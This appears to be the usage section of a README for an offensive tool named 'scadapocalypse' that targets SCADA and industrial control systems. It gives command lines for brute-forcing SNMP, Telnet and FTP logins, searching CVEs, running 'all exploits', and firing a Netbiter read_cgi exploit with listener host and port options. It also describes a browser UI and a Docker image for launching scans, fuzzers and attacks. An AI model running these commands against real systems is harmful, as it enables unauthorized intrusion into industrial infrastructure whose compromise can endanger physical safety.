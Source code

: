 ```bash
# Brute force SNMP login

python3 __main__.py --target 192.168.1.100 --brute_snmp --port 10010  --brute_wordlist wordlist2.txt --scada-system openscada

# Brute force Telnet login

python3 __main__.py --target 192.168.1.100 --brute_telnet --port 10010  --brute_wordlist wordlist2.txt

# Brute force FTP login

python3 __main__.py --target 192.168.1.100 --brute_ftp --port 10010  --brute_wordlist wordlist2.txt

# Run CVE Search 
python3 __main__.py --target 192.168.1.100 --cve  --scada-system openscada

# Run all exploits
python3 __main__.py --target 192.168.1.100 --exploit all

# Run a exploit for Netbiter Read
python3 __main__.py --target 192.168.1.100 --exploit exploit_34794_netbiter_read_cgi

python3 __main__.py --target 192.168.1.100 --exploit exploit_34794_netbiter_read_cgi --user USER --pwd PWD  --lhost 127.0.0.1 --lport 4444        



```

### Web UI Example

```bash
# Start the web UI
python3 -m marketplace.app
```

Then open [http://localhost:5000](http://localhost:5000) in your browser.

- Run scanners, fuzzers, exploits, and brute force attacks from the browser
- View live logs and results

> ![Web UI Screenshot Placeholder](docs/webui_screenshot.png)

### Docker Usage

Build the image:
```bash
docker build -t scadapocalypse .
```

#### Run CLI (default):
```bash
docker run -it scadapocalypse --target 192.168.1.100 --scan all
```
